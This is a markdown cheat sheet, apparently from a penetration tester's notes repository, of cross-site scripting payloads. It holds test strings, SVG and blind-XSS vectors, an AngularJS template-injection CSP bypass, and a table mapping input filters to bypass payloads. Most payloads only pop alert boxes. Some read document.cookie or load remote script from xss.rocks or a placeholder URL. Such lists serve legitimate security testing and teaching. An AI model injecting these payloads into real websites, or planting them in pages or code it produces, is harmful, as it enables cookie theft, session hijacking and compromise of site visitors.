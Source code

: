 # XSS Stuff

## Test Strings
```
<script>onerror=alert;throw 1</script>
<svg onload=alert(1)
<svg/onload=prompt(1) 
<img src=x onerror=alert('XSS');>
<img/src/onerror=prompt(8)>
<img/src/onerror=alert(document.cookie;)>
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
This is important, please <a aa aaa href=j&#97v&#97script:&#97lert(document.domain)>ClickHere
<form><button formaction=javascript&colon;alert(document.domain;)>CLICKME
```
Without space:   
```
<svg/onload=confirm()>
<iframe/src=javascript:alert(1)>
```

Without slash (/):   
```
<svg onload=confirm()>
<img src=x onerror=confirm()>
```

SVG based XSS:   
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
 
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
<script type="text/javascript">
alert("SVG XSS");
</script>
</svg>

```
SVG based blind XSS:   
```
<svg version="1.1" baseProfile="full" xmlns="http://w3.org/2000/svg" xmlns:xlink="http://w3.org/1999/xlink" >
  <script type="text/javascript"  xlink:href="URL"></script>
</svg>
```

## Using Angular.js to bypass CSP
If you can find a place in a web page where e.g.  `{{7*7}}` gets displayed on client-side as '49' (if its returned as 49, then its server-side template injection!), you can try to bypass CSP with:   
`{{$on.constructor('alert(1)')()}}`   
More here: https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti
 
## XSS Bypasses

|   Filter   | Bypass    |
| --- | --- |
| Nothing | &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt;, no quotes | >&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection in value attribute of &lt;input&gt; with quotes | ">&lt;script&gt;alert(1)&lt;/script&gt; |
| Injection within a &lt;script&gt; block | `asdf";alert(1);<!--` |
| Injection within a &lt;textarea&gt; | &lt;/textarea&gt;&lt;script&gt;alert(1)&lt;/script&gt; |
| DOM-XSS, no filtering | &lt;img src=x onerror=alert(1)&gt; |
| Client-side filtering of some values | [Attack in URL directly or manipulate request via Burp: https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert(1)%3C/script%3E](https://www.compass-demo.com/xss_lab/level7?inject=%3Cscript%3Ealert%281%29%3C/script%3E) |
| "&lt;" and "&gt;" are filtered | test" onmouseover="alert(1) |
| "script" is filtered, but only once | &lt;img src=x onerror=alert(1)&gt; OR &lt;scriscriptpt&gt;alert(1)&lt;/scriscriptpt&gt;  |
| most non-HTML5 onXYZ handlers are blocked | Any valid HTML5 onevent handler: &lt;input type=text oncontextmenu=alert(1)&gt;|
| all "onxyz" event handlers are filtered, "script" is filtered, but case sensitive | &lt;sCrIpT&gt;alert(1)&lt;/sCrIpT&gt; |
| "alert" is filtered | [&lt;script src=https://xss.rocks/xss.js&gt;](https://xss.rocks/xss.js) |
| "alert", "http://" and "https://" are filtered | &lt;script src=//xss.rocks/xss.js&gt; |
| Injection in a &lt;script&gt; block, but double quotes are escaped | Escape the escape character: `asdf\\";alert(1);<!--` |
| Injection in a &lt;script&gt; block, but "&lt;", "&gt;" and "alert" are filtered | ";\\u{61}lert(1);var i=" |
| Parentheses are filtered | &lt;script&gt;onerror=alert;throw 1&lt;/script&gt; |
| Injection inside "src" attribute of &lt;script&gt; tag, but all protocols "http://", "https://" and "//" are filtered. | data:text/javascript,alert(1) |
| all tags (e.g. &lt;.*&gt;) are filtered | Parameter pollution: [https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert(1)%3C/script%20&inject=%3E](https://www.compass-demo.com/xss_lab/level18?inject=%3Cscript%20&inject=%3Ealert%281%29%3C/script%20&inject=%3E) |
| "script" and "onXYZ" event handlers are filtered, but knockout JS is available. | Knockout JS script gadget:  &lt;h2&gt;Hello, &lt;span data-bind="text: alert(1)"&gt;&lt;/span&gt;!&lt;/h2&gt; |
| Injection via file upload, nothing filtered | Upload HTML document (e.g. test.html): &lt;script&gt;alert(1)&lt;/script&gt; |
| Injection via file upload, but .html extension and other important ones are filtered. | Upload HTML document, but with .htm extension:  &lt;script&gt;alert(1)&lt;/script&gt; |
| MIMETypes are filtered, only images are allowed. | Use an SVG (below is a fancy one): <br>`<?xml version="1.0" standalone="no"?>`<br>`<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">`<br>`<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">`<br>`<rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />`<br>`<script type="text/javascript">`<br>`alert("SVG XSS");`<br>`</script>`<br>`</svg>` |
| Injection inside eval, but ">", "<", "=", "alert", "script", "src" and protocols are all filtered. | String.fromCharCode(97,108,101,114,116,40,49,41) |
| csp blocks most things, but allows angularJS to be loaded | <script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.7.8/angular.js"></script\> &lt;input type=text ng-app id=p ng-focus=$event.view.alert(1)&gt; |

